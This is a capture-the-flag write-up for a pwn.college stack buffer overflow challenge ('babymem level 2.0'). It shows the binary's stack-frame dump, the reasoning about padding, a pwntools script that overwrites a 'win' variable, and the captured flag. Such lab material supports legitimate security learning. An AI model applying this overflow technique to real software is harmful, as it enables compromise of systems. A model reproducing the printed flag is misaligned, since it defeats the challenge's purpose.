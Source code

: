 # level2.0
## Description
Overflow a buffer on the stack to set trickier conditions to obtain the flag!
## Solution
- Running `./babymem-level-2-0` we get the following output:
```
###
### Welcome to ./babymem-level-2-0!
###

The challenge() function has just been launched!
Before we do anything, let's take a look at challenge()'s stack frame:
+---------------------------------+-------------------------+--------------------+
|                  Stack location |            Data (bytes) |      Data (LE int) |
+---------------------------------+-------------------------+--------------------+
| 0x00007ffdc7d257f0 (rsp+0x0000) | a0 e6 1b 00 00 00 00 00 | 0x00000000001be6a0 |
| 0x00007ffdc7d257f8 (rsp+0x0008) | e8 69 d2 c7 fd 7f 00 00 | 0x00007ffdc7d269e8 |
| 0x00007ffdc7d25800 (rsp+0x0010) | d8 69 d2 c7 fd 7f 00 00 | 0x00007ffdc7d269d8 |
| 0x00007ffdc7d25808 (rsp+0x0018) | 23 07 41 cc 01 00 00 00 | 0x00000001cc410723 |
| 0x00007ffdc7d25810 (rsp+0x0020) | 68 0d 00 00 00 00 00 00 | 0x0000000000000d68 |
| 0x00007ffdc7d25818 (rsp+0x0028) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25820 (rsp+0x0030) | 30 58 d2 c7 fd 7f 00 00 | 0x00007ffdc7d25830 |
| 0x00007ffdc7d25828 (rsp+0x0038) | 90 58 d2 c7 fd 7f 00 00 | 0x00007ffdc7d25890 |
| 0x00007ffdc7d25830 (rsp+0x0040) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25838 (rsp+0x0048) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25840 (rsp+0x0050) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25848 (rsp+0x0058) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25850 (rsp+0x0060) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25858 (rsp+0x0068) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25860 (rsp+0x0070) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25868 (rsp+0x0078) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25870 (rsp+0x0080) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25878 (rsp+0x0088) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25880 (rsp+0x0090) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25888 (rsp+0x0098) | 00 00 00 00 00 00 00 00 | 0x0000000000000000 |
| 0x00007ffdc7d25890 (rsp+0x00a0) | 00 00 00 00 fd 7f 00 00 | 0x00007ffd00000000 |
| 0x00007ffdc7d25898 (rsp+0x00a8) | 00 ab dd 6c 6d 93 fc 24 | 0x24fc936d6cddab00 |
| 0x00007ffdc7d258a0 (rsp+0x00b0) | e0 68 d2 c7 fd 7f 00 00 | 0x00007ffdc7d268e0 |
| 0x00007ffdc7d258a8 (rsp+0x00b8) | 97 6c e4 27 ae 64 00 00 | 0x000064ae27e46c97 |
+---------------------------------+-------------------------+--------------------+
Our stack pointer points to 0x7ffdc7d257f0, and our base pointer points to 0x7ffdc7d258a0.
This means that we have (decimal) 24 8-byte words in our stack frame,
including the saved base pointer and the saved return address, for a
total of 192 bytes.
The input buffer begins at 0x7ffdc7d25830, partway through the stack frame,
("above" it in the stack are other local variables used by the function).
Your input will be read into this buffer.
The buffer is 93 bytes long, but the program will let you provide an arbitrarily
large input length, and thus overflow the buffer.

In this level, there is a "win" variable.
By default, the value of this variable is zero.
However, if you can set variable to 0x50e0a652, the flag will be printed.
You can change this variable by overflowing the input buffer, but keep endianness in mind!
The "win" variable is stored at 0x7ffdc7d25890, 96 bytes after the start of your input buffer.

Payload size: 
```
- The program tells us that we need to set the `win` variable to `0x50e0a652` to get the flag.
- The buffer is 93 bytes long, I assume there's 3 bytes of padding between the buffer and the `win` variable.
- If we set our payload size to 100 bytes, we can write `0x50e0a652` to the `win` variable.
- Wrote the following python script to get the flag:
```python
import pwn

padding = b'A' * 96
payload = padding + pwn.p64(0x50e0a652)

r = pwn.process('/challenge/babymem-level-2-0')
r.recvuntil('size:')
r.sendline('100')

r.recvuntil('bytes)!')
r.send(payload)
print(r.readall())
```
- The script uses the `pwn` library to interact with the program.
- Running the script gives us the flag: `pwn.college{8QWHSfDUlNszmYRpFNtfm89KuW0.ddTNzMDL5QTO0czW}`.